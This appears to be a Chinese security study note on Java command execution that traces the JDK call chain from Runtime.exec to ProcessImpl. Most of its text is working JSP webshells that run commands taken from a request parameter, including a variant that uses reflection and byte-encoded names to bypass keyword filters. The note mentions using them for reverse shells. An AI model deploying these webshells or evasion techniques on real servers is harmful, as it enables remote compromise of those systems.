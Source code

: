# 本地命令执行

## 前言

Java 原生提供了对本地系统命令执行的支持，浅浅记录几种不同的命令执行方式。

## Runtime命令执行

最为常见的命令执行方式就是通过`java.lang.Runtime`类的`exec`方法，无回显的代码示例如下：
```java
<%=Runtime.getRuntime().exec(request.getParameter("cmd")) %>
```

无回显传反弹 shell 命令即可
![image-20220723194743188](本地命令执行.images/image-20220723194743188-8576868.png)

修改命令回显：
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream inputStream = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream bao = new ByteArrayOutputStream();
    byte[] bytes = new byte[1024];
    int a = -1;
    while((a = inputStream.read(bytes)) !=-1){
        bao.write(bytes, 0, a);
    }
    out.write(new String(bao.toByteArray()));

%>
```

![image-20220723212513757](本地命令执行.images/image-20220723212513757.png)

跟踪分析`Runtime.getRuntime().exec()`源码，可以得到调用链如下（JDK8版本）：
![image-20220807211716655](本地命令执行.images/image-20220807211716655.png)

```
java.lang.UNIXProcess.<init>                                        [UNIXProcess.java]
java.lang.ProcessImpl.start                                         [ProcessImpl.java]
java.lang.ProcessBuilder.start                                      [ProcessBuilder.java]
java.lang.Runtime.exec(String[] cmdarray, String[] envp, File dir)  [Runtime.java]
java.lang.Runtime.exec(String command, String[] envp, File dir)     [Runtime.java]
java.lang.Runtime.exec(String command)                              [Runtime.java]
org.apache.jsp.runtime_002dexec2_jsp._jspService                    [runtime_002dexec2_jsp.java]
```

因此，`exec()`方法是从`UNIXProcess`构造方法出发，经过一系列方法调用最终实现的命令执行，所以`exec()`方法并非命令执行的终点

## 反射Runtime命令执行

如果对`Runtime`关键字有过滤，可以通过反射进行绕过从而执行命令
```jsp
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %><%
    String str = request.getParameter("cmd");
    // 定义"java.lang.Runtime"字符串变量
    String jlr = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});
    // 反射Runtime类获取Class对象
    Class c = Class.forName(jlr);
    // 反射获取Runtime类的getRuntime方法
    Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));
    // 反射获取Runtime类的exec方法
    Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}),String.class);
    // 反射调用Runtim.getRuntime().exec()方法
    Object obj = m2.invoke(m1.invoke(null,new Object[]{}),new Object[]{str});

    // 反射获取Process类的getInputStream方法
    Method m3 = obj.getClass().getMethod(new String(new  byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    m3.setAccessible(true);

    // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    // \A为正则匹配，代表从字符串开头进行匹配
    Scanner s = new Scanner((InputStream) m3.invoke(obj, new Object[]{})).useDelimiter("\\A");
    String result = s.hasNext() ? s.next() : "";
    out.println(result);

%>
```

##  ProcessBuilder命令执行

前面我们已经知道`exec()`方法的调用链包含`ProcessBuilder`的`strat()`方法，因此我们也可以通过`processBuilder`来执行系统命令
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;
    while((a=in.read(b))!= -1){
        baos.write(b, 0, a);
    }
    out.write(new String(baos.toByteArray()));
%>
```

![image-20220727184018164](本地命令执行.images/image-20220727184018164.png)

## UNIXProcess/ProcessImpl

在 JDK8 以后，将`UNIXProcess`合并到了`ProcessImpl`当中，我们可以再跟一下`exec()`的链对比前面的图看看，已经没有了`UNIXProcess`
![image-20220811173015325](本地命令执行.images/image-20220811173015325.png)

因此`UNIXPeocess`和`ProcessImpl`此后可以看做一个东西，其最终调用了`native`执行系统命令的类，该类提供了一个名为`forkAndExec()`的`native`方法。`forkAndExec()`方法主要通过`fork&exec`来执行本地系统命令。

`ProcessImpl`类的`forkAndExec()`方法如下：

```java
private native int forkAndExec(int mode, byte[] helperpath,
                                   byte[] prog,
                                   byte[] argBlock, int argc,
                                   byte[] envBlock, int envc,
                                   byte[] dir,
                                   int[] fds,
                                   boolean redirectErrorStream)
        throws IOException;
```

## UNIXProcess/ProcessImpl反射命令执行

`ProcessImpl`类中没有共有的构造方法，所以不能直接实例化。我们可以通过反射去调用其中的静态方法`start()`
![image-20220812230031302](本地命令执行.images/image-20220812230031302.png)
java 代码实现

```java
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.Map;

public class Main extends ClassLoader {
    public static void main(String[] args) throws Exception{
        Class cla = Class.forName("java.lang.ProcessImpl");
        Method method = cla.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        method.setAccessible(true);
        InputStream in = ((Process)method.invoke(null, new String[]{"ls"},null,null,null,false)).getInputStream();
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] b = new byte[1024];
        int a = -1;
        while ((a = in.read(b))!=-1){
            out.write(b,0,a);
        }
        System.out.println(out.toString());
    }
}
```

jsp 代码实现按照跟到的`ProcessImpl`类中的`start`方法写就可以了
```jsp
<%--
  Created by dotast on 2022/8/14 01:00
--%>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<%!
    byte[] toCString(String s) {
        if (s == null)
            return null;
        byte[] bytes = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0,
                result, 0,
                bytes.length);
        result[result.length-1] = (byte)0;
        return result;
    }
    InputStream start(String[] cmdarray) throws Exception{
        assert cmdarray != null && cmdarray.length > 0;

        // Convert arguments to a contiguous block; it's easier to do
        // memory management in Java than in C.
        byte[][] args = new byte[cmdarray.length-1][];
        int size = args.length; // For added NUL bytes
        for (int i = 0; i < args.length; i++) {
            args[i] = cmdarray[i+1].getBytes();
            size += args[i].length;
        }
        byte[] argBlock = new byte[size];
        int i = 0;
        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
            // No need to write NUL bytes explicitly
        }

        int[] envc = new int[1];
        int[] std_fds = new int[]{-1, -1, -1};

        Class cla = Class.forName("java.lang.ProcessImpl");
        Constructor constructor = cla.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object object = constructor.newInstance(toCString(cmdarray[0]), argBlock, args.length, null, envc[0], null, std_fds, false, false);
        Method method = cla.getDeclaredMethod("getInputStream");
        method.setAccessible(true);
        return (InputStream) method.invoke(object);
    }
%>
<%
    String[] cmd = request.getParameterValues("cmd");
    out.println("<pre>"+ new String(start(cmd).readAllBytes()) + "</pre>");
%>

```

![image-20220814005057834](本地命令执行.images/image-20220814005057834.png)